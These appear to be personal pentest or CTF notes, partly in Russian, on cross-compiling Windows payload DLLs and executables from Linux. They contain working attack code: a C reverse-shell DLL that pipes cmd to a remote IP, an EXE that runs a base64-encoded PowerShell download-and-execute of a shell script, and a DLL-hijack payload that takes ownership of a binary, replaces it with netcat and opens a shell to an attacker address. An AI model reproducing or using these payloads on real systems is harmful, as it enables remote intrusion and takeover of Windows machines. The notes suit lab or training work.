 # c#c++
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

# Cоздание dll на с++

sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

x86_64-w64-mingw32-gcc xll.c -shared -o test.xll

# сщздание exe на с++
	sudo apt update && sudo apt install g++ -y

	g++ --version
	x86_64-w64-mingw32-g++ main.cpp -o shell.exe
	C++	g++	g++ file.cpp -o file	./file

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

# самый простой exe shell 
 
	#include <windows.h>

	int main() {
	    WinExec("powershell -enc 		SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANwA6ADgAMAAwADAALwBzAGgAZQBsAGwAXwA5ADAAMAAxAC4AcABzADEAJwApAAoA", 1);
		}



----------------------
    #include <winsock2.h>
    #include <windows.h>
    #include <io.h>
    #include <process.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <stdlib.h>
     #include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void DllMain() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------Вызывалка----------------------

x86_64-w64-mingw32-gcc-win32 test.c  -o test.exe
    --------------------------------
#include <windows.h>
#include <stdio.h>

int main( void )
{
        HINSTANCE hDll;

        // Load Dll
        hDll = LoadLibrary(TEXT("max.dll"));

        // If Dll Was Loaded
        if (hDll != NULL){
                printf("DLL Found\n");
                } else {
                printf("DLL Not Found");
                }
        return 0;
}

----------------------------------------------------ДЛЛКА

x86_64-w64-mingw32-gcc-win32 max.c  -o max.dll -shared

   ------------------------------------------

#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
        switch (dwReason)
        {
         case DLL_PROCESS_ATTACH:
          MessageBox(NULL,
                        "dsfvsdfsd",
                        "dsvsdvs",
                        MB_ICONERROR | MB_OK);
        break;
        }
return TRUE;
}


# Простая DLL на С

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{
  switch (dwReason)
{
case DLL_PROCESS_ATTACH:
        system("cmd.exe /c whoami /all > c:\\users\\public\\pleasesub.txt");

        system("cmd.exe /c takeown /F c:\\share\\bginfo64.exe");
        system("cmd.exe /c cacls c:\\share\\bginfo64.exe  /E /G ginawild:F");
        system("cmd.exe /c icacls c:\\share\\bginfo64.exe >> c:\\users\\public\\pleasesub.txt");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\bginfo64.exe");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\nc64.exe");

        system("cmd.exe /c c:\\share\\bginfo64.exe -e cmd.exe 10.10.14.37 9002");
        system("cmd.exe /c ping 10.10.14.37");

        break;
}
return TRUE;
}


x86_64-w64-mingw32-gcc-win32 script.c -o 7-zip64.dll -shared
gcc file.c -o file.exe	./file.exe

-----------------------------------------
# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs
C# (.NET)	mcs	mcs file.cs -out:file.exe	file.exe

# Компиляция C#
	и активация webdav https://gist.githubusercontent.com/klezVirus/af004842a73779e1d03d47e041115797/raw/29747c92ca04c844223d1ef6c1463d7e34e271ee/EtwStartWebClient.cs
	mcs startweb.cs /unsafe -out:start.exe




C# (Standalone)	dotnet	dotnet publish -c Release -r linux-x64 --self-contained true -o output	./output/file

